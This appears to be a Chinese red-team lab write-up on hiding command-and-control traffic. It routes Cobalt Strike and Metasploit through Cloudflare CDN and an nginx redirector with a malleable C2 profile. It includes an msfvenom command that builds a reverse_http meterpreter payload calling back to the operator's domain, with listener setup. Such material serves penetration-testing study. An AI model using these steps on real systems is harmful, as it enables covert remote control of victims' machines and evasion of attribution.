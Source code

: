 # C2 实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## C2隐藏技术

### CDN

**准备**
- 一台 vultr centos7 机器
- 一个域名
- cloudflare 账号

**挂上 cdn**

在域名购买后配置，cf 中的域名解析，在 cf 中配置 A 记录, 记录 IP 为 vps 地址

名称随意,如下

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/1.png)

ping 测试

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/2.png)

104.21.49.218 是 cf 的IP

**端口限制**

Cloudflare 支持的 HTTP 端口是：
- 80
- 8080
- 8880
- 2052
- 2082
- 2086
- 2095

Cloudflare 支持的 HTTPS 端口是：
- 443
- 2053
- 2083
- 2087
- 2096
- 8443

**CS**

监听器配置域名

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/3.png)

生成payload,在靶机上执行

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/4.png)

显示的目标是 172.67.195.13 ,这个IP也是 cloudflare 的 ip

cs上也显示了目标

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/5.png)

但是这种情况还是会暴露域名的,如果域名备案或者有其他特征，依然会被溯源。

**MSF**

payload 使用 reverse_http
```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=<域名> LPORT=80 -f exe > shell.exe
```

起监听
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_http
set lhost <域名>
set LPORT 80
exploit -j
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/6.png)

---

### 重定向

#### nginx 反代 CS

**准备**
- 一台 vultr centos7 机器

**使用 Malleable C2 文件**

访问 https://github.com/threatexpress/malleable-c2 ,下载 jquery-c2.4.0.profile

上传至 CS 目录,检查可用性
```bash
chmod +x c2lint
./c2lint jquery-c2.4.0.profile
```

无误后,运行 cs

**cs 配置监听**

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/7.png)

**搭建 nginx**

```bash
wget https://nginx.org/download/nginx-1.16.1.tar.gz
tar -zxvf nginx-1.16.1.tar.gz
cd nginx-1.16.1/
./configure
make
make install
cd /usr/local/nginx/sbin
./nginx
```

注:源代码安装你的默认目录在 /usr/local/nginx 下,配置文件在 conf/ 中,不要搞错了

访问 IP,可以看到一个欢迎页

修改 nginx.conf
```diff
cd /usr/local/nginx/conf
vim nginx.conf

+ location ~*/jquery {
+     proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
+     proxy_pass  http://127.0.0.1:8080;
+ }

+ location / {
+     proxy_pass  http://www.baidu.com/;
+ }
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/8.png)

重启 nginx
```
cd /usr/local/nginx/sbin && ./nginx -s reload
```

这个时候访问 nginx 服务默认会转到 baidu, 加路径 /jquery-3.3.1.min.js

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/9.png)

生成 payload 测试一下

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/10.png)

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/C2实验/11.png)

---

## Source & Reference

- [反溯源-cs和msf域名上线](https://xz.aliyun.com/t/5728)
- [使用CDN隐藏c2流量](http://blog.sern.site:8000/2020/08/03/%E4%BD%BF%E7%94%A8CDN%E9%9A%90%E8%97%8Fc2%E6%B5%81%E9%87%8F/)
- [cobaltstrike配置nginx反向代理](https://mp.weixin.qq.com/s/OK0m9lln5-XjHHkWLwMxHg)
- [Cobalt Strike with CloudFlare](https://mp.weixin.qq.com/s/d6hu8YE-SGy-eruIWOwbXg)
- [博客使用Cloudflare和Nginx的相关配置](https://jayshao.com/cloudflare-nginx-ssl/)
- [利用apache mod_rewrite模块实现重定向技术来隐藏CS的teamserver的原理与实现](https://shanfenglan.blog.csdn.net/article/details/107789018)
